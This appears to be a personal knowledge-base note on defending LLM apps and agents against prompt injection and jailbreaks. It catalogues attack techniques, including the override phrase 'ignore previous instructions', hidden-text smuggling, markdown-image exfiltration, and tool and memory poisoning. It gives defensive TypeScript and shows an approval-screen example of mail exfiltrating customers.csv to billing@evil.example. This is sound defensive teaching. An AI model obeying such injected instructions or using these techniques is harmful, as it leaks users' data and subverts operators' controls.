

# LLM Security & Governance - Prompt Injection & Jailbreak Defense

> [!info] Deep dive of [[LLM Security & Governance]]

> [!abstract] TL;DR
> - **Prompt injection** makes the model follow an attacker's text instead of yours. **Jailbreaking** makes it break its own or your content rules. Techniques overlap, goals differ.
> - **No filter holds against an adaptive attacker.** A 2025 study broke 12 published defences, and human red-teamers reached 100%.
> - So the boundary is **architecture**: a model that reads untrusted text must not also hold private data and a way to act or send. Filters and prompt hardening only cut noise and raise alarms.

## Concept

### Injection vs jailbreak
| | Prompt injection | Jailbreak |
|---|---|---|
| Attacker | Third party (or the user) who gets text into context | The user at the keyboard |
| Target | Your application's instructions and tools | The model's safety training, or your content policy |
| Goal | Steal data, trigger actions, change the answer for someone else | Get forbidden content, or make the bot say something damaging |
| Who is harmed | Your user, your client, other tenants | Your client's brand. Sometimes third parties |
| Primary defence | Privilege separation and gated actions | Provider safety layers, output guard, no commitment authority |

### Attack catalogue
| Technique | How it works | What limits it |
|---|---|---|
| Direct override | User types "ignore previous instructions…" | Nothing secret in the prompt, authorization in the tool gateway |
| **Indirect injection** | Instructions hidden in an email, PDF, web page, ticket or tool result that the model reads later | Quarantine untrusted text away from tools |
| Hidden text | White-on-white, HTML comments, alt text, zero-width and Unicode tag characters ("ASCII smuggling") | Normalise and strip before text enters context |
| Multimodal | Instructions inside an image, screenshot or audio clip | Treat OCR and transcripts as untrusted |
| Exfiltration channel | Markdown image or link with data in the URL, or a tool call to an attacker-chosen destination | Link and image allowlist, egress allowlist on tools |
| Tool poisoning, rug pull | Malicious MCP tool description, or a description that changes after approval | Pin and hash tool definitions, review on change |
| Memory poisoning | Injected content is saved to long-term memory and steers future sessions | Gate memory writes, keep provenance, expire entries |
| Multi-turn escalation | Each turn nudges slightly further (Crescendo) | Conversation-level checks, turn caps |
| Many-shot | Hundreds of fake dialogue turns in a long context normalise the forbidden behaviour | Length caps on untrusted fields |
| Obfuscation | Base64, leetspeak, low-resource languages, ASCII art, fake policy files, role-play | Classify decoded text. Keyword lists fail here |
| Adversarial suffix | Optimised gibberish strings found by gradient search (GCG) | Provider-side. Mostly a research threat |
| Payload splitting | Harmless fragments across fields or documents that combine in context | Context minimisation, per-document isolation |

### Why filtering cannot be the boundary
- **The attacker moves second.** They see your defence, then iterate against it for free.
- **The detector is another model** with the same weakness it is guarding.
- **Security math differs from accuracy math.** A filter that blocks 99% of attempts is a filter that passes the hundredth try.
- **Evidence**: Nasr et al. (2025-10) defeated 12 published defences with adaptive attacks, most at over 90% success, and human red-teamers bypassed all of them.

## How It Works
Six design patterns (Beurer-Kellner et al., 2025-06) trade agent flexibility for containment:

| Pattern | Idea | What you give up |
|---|---|---|
| **Action-Selector** | Model picks from a fixed action list and never sees tool output | No reasoning over results |
| **Plan-Then-Execute** | Plan is frozen before any untrusted data is read. Tool output cannot add steps | Arguments can still be corrupted. No adaptive replanning |
| **LLM Map-Reduce** | One isolated call per untrusted document, each returning a constrained value | Cross-document reasoning |
| **Dual LLM** | Privileged model plans and calls tools. Quarantined model reads untrusted text with no tools. Results pass as opaque variables | Extra calls, more plumbing |
| **Code-Then-Execute** (CaMeL) | Privileged model writes a program. An interpreter tracks where each value came from and enforces policy on every tool call | Custom interpreter. Lower task completion |
| **Context-Minimization** | Drop earlier untrusted content (or the user prompt) from later steps | Less context for the final answer |



**Agents Rule of Two** (Meta, 2025-10) is the quick test. Within one session an agent may hold at most two of:
- **A**: processes untrusted input
- **B**: accesses sensitive systems or private data
- **C**: changes state or communicates externally

All three together requires a human approval step or a fresh session. It generalises the lethal trifecta in [[OWASP Top 10 - LLM & Agent Security]].

## Practical Usage

### Taint tracking: enforce the Rule of Two in the tool gateway
```ts
type Tool = { name: string; reads: "public" | "private"; effect: "none" | "internal" | "external" };

class Session {
  tainted = false;        // untrusted content has entered context
  sawPrivate = false;     // a private-data tool has run

  ingest(trusted: boolean) { if (!trusted) this.tainted = true; }

  decide(tool: Tool): "allow" | "approve" {
    if (tool.reads === "private") this.sawPrivate = true;
    if (tool.effect !== "external") return "allow";
    return this.tainted && this.sawPrivate ? "approve" : "allow";   // all three legs → a human decides
  }
}
```
Taint is sticky for the session. Clearing it means starting a new session without the untrusted content.

### Quarantined extraction with a constrained schema
```ts
const Verdict = z.object({
  category: z.enum(["invoice", "complaint", "order", "spam", "other"]),
  amount: z.number().nonnegative().nullable(),
  urgency: z.enum(["low", "normal", "high"]),
});

// No tools, no secrets, output forced to the schema. No free-text field, so injected text has no way out.
const verdict = Verdict.parse(
  await llm.extract({ model: QUARANTINE_MODEL, schema: Verdict, input: sanitizeUntrusted(emailBody) }),
);
routeByCategory(verdict);          // deterministic code picks the next step, not the model that read the email
```
The wrong way is one agent that receives the raw email body *and* holds `send_email`, `query_customers` and `update_order`.

### Strip hidden text before it enters context
```ts
const INVISIBLE = /[​-‏‪-‮⁠-⁤]|[\u{E0000}-\u{E007F}]/gu;

export function sanitizeUntrusted(text: string, max = 20_000) {
  return text.normalize("NFKC").replace(INVISIBLE, "").replace(/<!--[\s\S]*?-->/g, "").slice(0, max);
}
```
Covers zero-width and bidi controls, Unicode tag characters and HTML comments. It does not catch visible instructions, so it complements isolation and never replaces it.

### Close the exfiltration channel in rendered output
```ts
const ALLOWED = new Set(["kedai-x.example", "wa.me"]);

export function stripUnsafeLinks(md: string) {
  return md
    .replace(/!\[[^\]]*\]\([^)]*\)/g, "")                                   // no remote images at all
    .replace(/\[([^\]]+)\]\((https?:\/\/[^)\s]+)\)/g, (m, text, url) =>
      ALLOWED.has(new URL(url).hostname) ? m : text);                         // keep text, drop foreign URL
}
```

### Approval screens show raw arguments
```text
WRONG   "The assistant wants to send a follow-up to the customer. Approve?"     ← summary written by the model
RIGHT   send_email  to: billing@evil.example  subject: "Export"  attachment: customers.csv (4,812 rows)
```
An injected model writes a reassuring summary. The approver must see the exact payload that will execute.

## Patterns & Anti-patterns
| Pattern | When | Anti-pattern to avoid |
|---|---|---|
| Split read and act: classifier with enum output → deterministic router → action workflow | Inbound email, WhatsApp, tickets, uploads | One agent that reads inbound content and holds write tools |
| Rule of Two check per session, enforced in the gateway | Every agent | "The system prompt says never to do that" |
| Quarantined model for anything fetched from outside | RAG over user uploads, web browsing, MCP results | Passing tool output straight back into the privileged context |
| Constrained outputs (enum, number, ID) across the boundary | Wherever a quarantined result feeds a decision | Free-text "summary" fields crossing the boundary |
| Pin tool definitions and alert on change | MCP servers, plugin ecosystems | Auto-accepting updated tool descriptions |
| Filters as telemetry: log and alert on blocked attempts | All tiers | Treating a classifier score as the security boundary |
| Bot has no authority to commit: prices, refunds and policy come from data | Customer-facing chat | Letting generated text be the offer |

## Performance & Trade-offs
- **Containment costs capability.** CaMeL completed about two-thirds of AgentDojo tasks with its guarantees in place (67% in the first paper), below an undefended agent. Sophos noted in 2026 that no mainstream agent harness ships CaMeL or Dual LLM by default.
- **Extra calls**: Dual LLM and map-reduce add one call per untrusted item. Run the quarantined side on the cheapest model that passes the extraction evals.
- **Provider-side jailbreak classifiers work but are not free**: Anthropic's Constitutional Classifiers cut jailbreak success from 86% to 4.4% in testing, for 0.38% more refusals and 23.7% more compute.
- **Approval friction**: every "approve" branch costs human time. Narrow the triggers (taint + private + external) or people stop reading.
- **Sanitising** is microseconds. Link stripping can break legitimate links, so keep the allowlist per tenant.

## Tips & Reminders
> [!tip]
> - Ask "what could this session read and do if the next document were hostile?" before adding any tool.
> - System prompt extraction cannot be prevented. Write prompts you would be comfortable seeing on social media.
> - Treat sub-agent output, MCP results and retrieved chunks exactly like user input.
> - Rate-limit and alert on blocked attempts. An attacker probing a filter produces a visible burst of near-misses.
> - User uploads that land in a shared knowledge base are stored injection. Keep them tenant-scoped and review before promoting.
> - Coding agents: no auto-approved shell, no production credentials in the environment, and review rules or skills files in repos you did not write.
> - **In ZP's stack**:
>   - An [[n8n]] AI Agent node on an inbound WhatsApp or email trigger with HTTP and database tools holds all three legs. Split it: Basic LLM Chain with structured output → Switch node → separate action workflow.
>   - Give agents the caller's [[Supabase]] JWT so RLS applies. Run database MCP servers read-only and project-scoped.
>   - Put the allowlist for outbound links and webhook hosts in config per client, not in the prompt.

## Version Notes
| When | What changed |
|---|---|
| 2022-09 | Prompt injection named and demonstrated publicly |
| 2023-02 | Indirect prompt injection described (Greshake et al.) |
| 2023-04 | Dual LLM pattern proposed |
| 2024-03 / 04 | Spotlighting (Microsoft). Many-shot jailbreaking (Anthropic). Crescendo multi-turn attack (Microsoft) |
| 2025-03 | CaMeL: capability-based interpreter, security by design |
| 2025-06 | Six agent design patterns paper. EchoLeak zero-click in M365 Copilot (CVE-2025-32711) |
| 2025-10 | Meta's Agents Rule of Two. "The Attacker Moves Second" breaks 12 defences |
| 2026 | Injection-to-RCE CVEs in coding agents: Cursor (CVE-2026-22708), AWS Kiro (CVE-2026-10591), Claude Code (CVE-2026-21852). OWASP LLM Top 10 2026 keeps prompt injection at #1 |

> [!warning] Unverified — check before relying on this
> 2026 CVE details come from secondary reports. Check each vendor's advisory for affected versions and scores.

## Critical Issues & Gotchas
> [!danger] In a coding agent, injection is remote code execution
> 2026 brought CVEs where a README, issue, web search result or MCP response led to shell commands on the developer's machine: Cursor trusted shell built-ins (CVE-2026-22708), and AWS Kiro had a chain rated 8.8 (CVE-2026-10591). Run agents in a sandbox or container, keep cloud and production credentials out of that environment, and require approval for commands the harness cannot classify.

> [!danger] A filter that blocks 99% is a failed control
> Adaptive attackers retry until one variant passes, and published defences fell at over 90% success under that pressure. If the design is only safe while the classifier is right, it is not safe. Count on the gateway, the Rule of Two and approvals. Count the filter as monitoring.

> [!danger] Jailbroken support bots create commitments and headlines
> A US car dealer's bot was talked into "agreeing" to sell a vehicle for USD 1 (2023-12), and a courier's bot was made to swear and criticise its own company (2024-01). Keep the bot without authority: prices and policies are read from data, promises are blocked by the output guard, and the kill switch is one flag away.

> [!warning] Gotchas
> - Hidden text in PDFs (white or 1 pt font) survives text extraction. Sanitising removes invisible characters, not invisible styling, so rasterise-and-OCR or flag style anomalies for high-risk intake.
> - A plan frozen before reading data can still be fed poisoned *arguments*. Validate arguments against the user's request, not only the tool schema.
> - Long-term memory makes one successful injection permanent. Review what gets written, and by which session.
> - Multi-agent setups multiply the surface: a compromised worker's "report" is an injection into the orchestrator.
> - Lower-resource languages and code-switching (BM, Manglish, Chinese) weaken English-trained classifiers. Test guards in the languages your users write.

## Related
- [[LLM Security & Governance]]
- [[OWASP Top 10 - LLM & Agent Security]] — LLM01 mapping, tool gateway, spotlighting prompt
- [[AI Agents - Tool Calling & Agent Loops]] — where tool permissions and budgets are defined
- [[AI Agents - Human-in-the-Loop & Approval Workflows]] — building the approval step
- [[Model Context Protocol - Remote Servers, OAuth & Security]] — tool poisoning and connector scoping
- [[n8n - AI Agent Nodes & LLM Workflows]] — splitting read and act in workflows
- [[LLM Security & Governance - Guardrails & Content Moderation]] — the filter layer and its limits
- [[LLM Security & Governance - Red Teaming & Security Testing]] — testing these defences adaptively

## References
- OWASP LLM01 Prompt Injection: https://genai.owasp.org/llmrisk/llm01-prompt-injection/
- Simon Willison, prompt injection series: https://simonwillison.net/series/prompt-injection/
- Dual LLM pattern: https://simonwillison.net/2023/Apr/25/dual-llm-pattern/
- Greshake et al., indirect prompt injection: https://arxiv.org/abs/2302.12173
- Debenedetti et al., CaMeL: https://arxiv.org/abs/2503.18813
- Beurer-Kellner et al., design patterns for securing LLM agents: https://arxiv.org/abs/2506.08837
- Nasr et al., The Attacker Moves Second: https://arxiv.org/abs/2510.09023
- Meta, Agents Rule of Two: https://ai.meta.com/blog/practical-ai-agent-security/
- Microsoft, Spotlighting: https://arxiv.org/abs/2403.14720
- Anthropic, many-shot jailbreaking: https://www.anthropic.com/research/many-shot-jailbreaking
- Anthropic, Constitutional Classifiers: https://www.anthropic.com/research/constitutional-classifiers
- Sophos, inside the lethal trifecta: https://www.sophos.com/en-us/blog/inside-the-lethal-trifecta-blast-radius-reduction-in-ai-agent-deployments
- SC World, Cursor CVE-2026-22708: https://www.scworld.com/news/cursor-vulnerability-enables-stealthy-rce-via-indirect-prompt-injection
- Cymulate, zero-click RCE via prompt injection: https://cymulate.com/blog/zero-click-rce-prompt-injection-ai-tools/
